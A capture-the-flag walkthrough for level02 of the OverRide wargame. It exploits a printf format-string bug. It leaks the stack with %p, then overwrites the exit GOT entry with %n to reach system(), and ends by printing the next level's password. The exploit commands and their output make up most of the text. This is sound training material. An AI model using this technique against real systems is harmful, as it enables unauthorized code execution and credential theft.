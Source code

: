 # Walkthrough level02

First we have execute the program.  

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: root 
--[ Password: root
*****************************************
root does not have access!
```
A printf function is used in program. We can exploit printf because we can control the format string.   


```bash
level02@OverRide:~$ (python -c 'print("%p " * 12)' ; python -c 'print("a" * 8)' ; cat) | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe500 (nil) 0x61 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x6161616161616161 (nil) (nil) (nil) (nil)  does not have access!
```

We can see our buffer starts at 8th address.  
In the `password` we can override exit address. In `username` we can write our format string on the value of the address where we want to jump (source code line 45: system = 0x400a85 = 4196997) in the address contained in password. 



```bash
(gdb) disas 'exit@plt'
0000000000400710 <exit@plt>:
  400710:       ff 25 12 0b 20 00       jmp    QWORD PTR [rip+0x200b12]        # [601228] <_GLOBAL_OFFSET_TABLE_+0x68> 
  400716:       68 0a 00 00 00          push   0xa
  40071b:       e9 40 ff ff ff          jmp    400660 <_init+0x20>

(gdb) disas main
(...)
[400a85]:       bf 32 0d 40 00          mov    edi,0x400d32
400a8a:       e8 21 fc ff ff          call   4006b0 <system@plt>
```

Let's exploit this:

```bash
level02@OverRide:~$ (python -c 'print("%4196997d%8$n")' ; python -c 'print("\x28\x12\x60")' ; cat) | ./level02
...
whoami
level03
cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
 